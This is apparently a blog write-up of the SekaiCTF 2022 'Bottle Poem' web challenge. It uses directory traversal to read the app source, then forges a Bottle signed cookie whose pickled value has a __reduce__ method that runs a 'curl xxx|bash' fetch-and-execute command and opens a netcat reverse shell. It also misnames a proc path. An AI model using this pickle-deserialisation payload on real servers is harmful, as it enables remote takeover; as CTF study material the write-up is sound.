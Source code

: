 ```yaml
---
title: "Sekai Ctf 2022 Bottle Poem"
date: 2023-01-06T10:27:19+07:00
image: images/blog/web/sekai-ctf-2022-bottle-poem/sekai-ctf-2022-logo.png
feature_image: images/blog/web/sekai-ctf-2022-bottle-poem/sekai-ctf-2022-logo.png
author: duti
tags: ["web", "ctf", "duti"]
draft: true
---
```


### Problem statement

{{< figure src="/images/blog/web/sekai-ctf-2022-bottle-poem/problem-statement.png" title="" >}}
Author hints that flag is executable

{{< figure src="/images/blog/web/sekai-ctf-2022-bottle-poem/web-home.png" title="" >}}
{{< figure src="/images/blog/web/sekai-ctf-2022-bottle-poem/web-link.png" title="" >}}

The website is vulnerable to directory traversal
{{< figure src="/images/blog/web/sekai-ctf-2022-bottle-poem/web-link-directory-traversal.png" title="" >}}

Pick /etc/self/procline to get the start application command
{{< figure src="/images/blog/web/sekai-ctf-2022-bottle-poem/directory-traveral-cmd-procline.png" title="" >}}
{{< figure src="/images/blog/web/sekai-ctf-2022-bottle-poem/self-procline.png" title="" >}}

So the application source is located at /app/app.py
{{< figure src="/images/blog/web/sekai-ctf-2022-bottle-poem/self-procline.png" title="" >}}
{{< figure src="/images/blog/web/sekai-ctf-2022-bottle-poem/app-source.png" title="" >}}
{{< gist hdthinh1012 fe0323be1368b472eb49f9b4cd629b07 >}}

If run the code at local change the set_cookie’s session argument to {”name”:”admin”} will get the admin page but it just a trap

The hint said flag is executable, meaning RCE is possible.

Let's have a look at Python Bottle

### Python Bottle
{{< figure src="/images/blog/web/sekai-ctf-2022-bottle-poem/bottle-guide.png" title="" >}}

#### Bottle signed cookie
{{< figure src="/images/blog/web/sekai-ctf-2022-bottle-poem/bottle-signed-step.png" title="" >}}
Bottle first:

- pickle.dumps([name, value], -1) then base64 encode → encoded
- hmac encrypt the secret seperately then base64 encode → signature
- add ‘!’ at the first char and ‘?’ in between signature

Cookie format: !__secret_hmac_base64__==?__pickle_name_value_base64__==

#### Bottle verify cookie
{{< figure src="/images/blog/web/sekai-ctf-2022-bottle-poem/bottle-verify-step.png" title="" >}}
get_cookie:

- …
- base64 decode the pickled then call pickle.loads(pickle.dumps([’name’, “Pickle dumps containing RCE here”], -1))

We have controlled the value input through cookie

### Pickle exploit [Ref](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
Byte-stream created by pickle.dumps contains opcodes that are then one-by-one executed as soon as we load the pickle back in. If you are curious how the instructions in this pickle look like, you can use pickletools to create a disassembly: pickletools.dis(pickled)

{{< gist hdthinh1012 25791fc3bef8393f262434672ad6557f >}}

pickle still allows you to define a custom behavior for the pickling process for your class instances.


```
The __reduce__() method takes no argument and shall return either a string or 
preferably a tuple (the returned object is often referred to as the “reduce value”). 
[…] When a tuple is returned, it must be between two and six items long. 
Optional items can either be omitted, or None can be provided as their value. 
The semantics of each item are in order:

A callable object that will be called to create the initial version of the object.
A tuple of arguments for the callable object. An empty tuple must be given if the 
callable does not accept any argument. […]
```

So by implementing `__reduce__` in a class which instances we are going to pickle, we can give the pickling process a callable plus some arguments to run. While intended for reconstructing objects, we can abuse this for getting our own reverse shell code executed.

So if any value in the array pass into pickle.dumps is an instance containing `__reduce__`(…) function, that reduce will be executed when calling pickle.loads(…). And the `__reduce__`(…) implement demand returns an tuple with first value an executable, callable method in python for example (os.system, eval or any function), the second value is argument of the callable.

So by implement reduce method that `return (eval, ('__import__("os").popen("curl xxx|bash")',))` , we can execute code on the server.

### The exercise step
#### Generate cookie 
Add an class definition with `__reduce__` method (that return reverse shell python code) to create an instance, then pass the instance to the session1[’name’] that passed into set_cookie.

{{< gist hdthinh1012 93a70b6e9a3be020872c3877b7101463 >}}

Running server and go to /sign with the Guest cookie to get the new Cookie with RCE instance dumps

{{< figure src="/images/blog/web/sekai-ctf-2022-bottle-poem/get-malicious-cookie.png" title="" >}}


<!-- {{< gist hdthinh1012 1244973789752ff62c2956e9698570eb >}} -->
In Attackbox, open netcat listener at port 55555:
{{< figure src="/images/blog/web/sekai-ctf-2022-bottle-poem/run-nc-listener.png" title="" >}}

Request to the SekaiCTF with RCE cookie
{{< figure src="/images/blog/web/sekai-ctf-2022-bottle-poem/run-payload.png" title="" >}}

Netcat listener now receive reverse shell:
{{< figure src="/images/blog/web/sekai-ctf-2022-bottle-poem/access-flag.png" title="" >}}

### Reference Links

Reverse Shell / Bind Shell: 

[https://www.hackingtutorials.org/networking/hacking-with-netcat-part-1-the-basics/](https://www.hackingtutorials.org/networking/hacking-with-netcat-part-1-the-basics/)

[https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

[https://www.hackingtutorials.org/networking/hacking-with-netcat-part-3-advanced-techniques/](https://www.hackingtutorials.org/networking/hacking-with-netcat-part-3-advanced-techniques/)

Python Pickle Module `__reduce__` implements allow RCE:

[https://davidhamann.de/2020/04/05/exploiting-python-pickle/](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Python Bottle get_cookie set_cookie using pickle.loads and pickle.dumps in its chain of encrypt/encode steps

[https://github.com/bottlepy/bottle/blob/master/bottle.py](https://github.com/bottlepy/bottle/blob/master/bottle.py) (ctrl+f set_cookie, get_cookie)





